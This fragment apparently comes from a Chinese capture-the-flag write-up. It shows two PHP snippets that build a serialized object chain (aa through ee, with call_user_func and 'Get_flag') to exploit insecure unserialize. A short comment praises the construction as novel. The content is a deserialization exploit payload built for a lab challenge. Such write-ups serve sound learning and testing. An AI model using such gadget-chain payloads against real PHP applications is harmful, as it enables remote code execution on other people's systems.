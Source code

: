 ```

class dd
{
    public $name;
    public $flag;
    public $b;

    public function __construct()
    {
        $this->b = "call_user_func";
        $this->flag =  "Get_flag";
    }
}

$b = new bb();
echo serialize($b); 
```

这种构造方法很新颖，值得学习~~

另外一种构造方法

```
$a = new aa();
$b = new bb();
$c = new cc();
$d = new dd();
$e = new ee();

$d->b = 'call_user_func';
$d->flag = 'Get_flag';

$e->str1 = $d;
$e->str2 = 'getflag';

$c->mod3 = $e;
$c->mod1 = $e;

$a->mod2 = array('test2'=> $c);

$b->mod1 = $a;

$x = serialize($b);

unserialize($x); 
```
